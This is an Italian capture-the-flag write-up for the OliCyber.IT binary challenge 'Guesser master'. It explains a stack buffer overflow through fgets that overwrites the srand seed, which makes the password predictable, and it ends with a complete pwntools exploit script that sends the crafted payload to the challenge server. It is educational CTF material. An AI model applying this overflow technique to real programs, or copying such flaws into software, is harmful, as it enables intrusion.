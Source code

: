 # OliCyber.IT 20232 - Competizione Nazionale

## [binary] Guesser master (32 risoluzioni)

La challenge è un normale binario linkato dinamicamente. All'esecuzione il binario chiede un input, lo confronta con dei dati segreti apparentemente generati casualmente ad ogni esecuzione. Se le stringhe sono uguali, il binario stampa la flag, altrimenti chiude la connessione.

### Soluzione

I dati sono effettivamente generati casualmente, se andiamo a fare un po' di reverse engineering del binario. Vediamo che nel main viene chiamata la funzione `srand` della libc, che setta il seed del PRNG della libreria standard del C. Il seed viene settato ad una variabile locale che era stata precedentemente popolata con dei byte casuali letti effettivamente da `/dev/urandom`, usando una funzione che in C, dopo un po' di reverse engineering, si può scrivere

```c

void rand32(unsigned int *r) {
  FILE *f = fopen("/dev/urandom", "r");
  unsigned long rv = fread(r, sizeof(*r), 1, f);
  if (rv != 1) {
    fprintf(stderr, "Error reading from /dev/urandom. Please contact a gabibbo");
    exit(1);
  }
  fclose(f);
}
```

Sembra quindi che i dati siano davvero random. Non c'è speranza quindi di indovinarli utilizzando qualche trucco crittografico. Tuttavia notiamo però che l'ordine in cui vengono eseguite le azioni è il seguente:

```c
  rand32(&seed);
  printf("input: ");
  fgets(password, 0x200, stdin);
  srand(seed);

  for (int i = 0; i < 0x100-1; i++) {
    g_password[i] = rand() % 0x19 + 0x41;
  }

```

Quindi il seed random viene settato dopo che noi abbiamo inserito il nostro input, cosa che è abbastanza strana. In effetti, controllando la dimensione delle variabili, possiamo notare che la `fgets` non scrive solo su `password`, ma scrive anche oltre, in quanto la variabile `password` è più corta di 0x200 caratteri. Utilizzando per esempio `Edit stack frame` di ghidra, possiamo notare come dopo la variabile password ci sia proprio il seed random che è appena stato pescato da `/dev/urandom`.

La strategia è quindi:

- sovrascrivere il seed random con un valore noto
- calcolare in parte la password che genererebbe questo seed
- dare la password corretta al programma

Per essere ancora più pigri, possiamo eseguire localmente il programma usando gdb, fornire l'input che sovrascrive il seed random ed esaminare la memoria in cui è salvata la password che dobbiamo copiare. In questo modo non dobbiamo nemmeno capire l'algoritmo che genera la password.

### Exploit

```python
#!/usr/bin/env python3

from pwn import ELF, context, process, flat, p64, args, remote
import os
import logging

logging.disable()

exe = context.binary = ELF(os.path.dirname(os.path.realpath(__file__)) + '/guesser_master')
HOST = os.environ.get("HOST", "guessmaster.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 35006))


io = process([exe.path], env={"FLAG": "flag{test}"}) if args.LOCAL else remote(HOST, PORT)
# ui.pause()
io.sendlineafter(b"input: ", flat({
    0x0: b"ILCPSKLRYVMCPJNBPBWLLSREHFMXRKECWITRSGLREXVTJMXYPUNBQFGXMUVGFAJCLFVENHYUHUORJOSAMIBDNJDBEYHKBSOMBLTOUUJDRBWCRRCGBFLQPOTTPEGRWVGAJCRGWDLPGITYDVHEDTUSIPPYVXSUVBVFENODQASAJOYOMGSQCPJLHBMDAHYVIUEMKSSDSLDEBESNNNGPESDNTRRVYSUIPYWATPFOELTHROWHFEXLWDYSVSPWLKFBLFD\x00",
    0x100: p64(0),
}))
io.recvuntil(b"Flag: ")
flag = io.recvline().decode().strip()
print(flag)
io.close()

```
